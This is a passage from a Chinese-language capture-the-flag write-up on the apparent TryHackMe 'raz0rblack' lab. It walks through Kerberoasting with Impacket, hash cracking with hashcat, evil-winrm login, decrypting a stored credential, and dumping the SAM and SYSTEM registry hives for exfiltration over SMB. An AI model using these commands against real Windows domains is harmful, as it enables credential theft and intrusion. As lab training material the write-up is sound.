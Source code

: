 ## Kerberoasting

    net user xyan1d3 /domain

借助GetUserSPNs.py枚举具有SPN的账户：

    python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -dc-ip 10.10.191.151 raz0rblack.thm/lvetrova -hashes aad3b43*************35b51404ee:f220d398***********0ee16c431d -request

我们得到了xyan1d3的密码hash

    ServicePrincipalName                   Name     MemberOf                                                    PasswordLastSet             LastLogon  Delegation 
    -------------------------------------  -------  ----------------------------------------------------------  --------------------------  ---------  ----------
    HAVEN-DC/xyan1d3.raz0rblack.thm:60111  xyan1d3  CN=Remote Management Users,CN=Builtin,DC=raz0rblack,DC=thm  2021-02-23 23:17:17.715160  <never>

hashcat爆破：

    hashcat -a 0 -m 13100 ./hash /usr/share/wordlists/rockyou.txt

成功获得xyan1d3的明文密码：

    cyani*****e5628

evil-winrm登录：

    evil-winrm -i 10.10.191.151 -u xyan1d3 -p cyan*******ne5628

flag:

    *Evil-WinRM* PS C:\Users\xyan1d3> $cred = Import-Clixml -Path xyan1d3.xml
    *Evil-WinRM* PS C:\Users\xyan1d3> $cred.GetNetworkCredential().Password

不出意外：

    *Evil-WinRM* PS C:\Users> whoami /priv

    PRIVILEGES INFORMATION
    ----------------------

    Privilege Name                Description                    State
    ============================= ============================== =======
    SeMachineAccountPrivilege     Add workstations to domain     Enabled
    SeBackupPrivilege             Back up files and directories  Enabled
    SeRestorePrivilege            Restore files and directories  Enabled
    SeShutdownPrivilege           Shut down the system           Enabled
    SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
    SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

## 注册表转储sam、system

    reg save HKLM\SAM sam
    reg save HKLM\SYSTEM system

攻击机开启smbserver
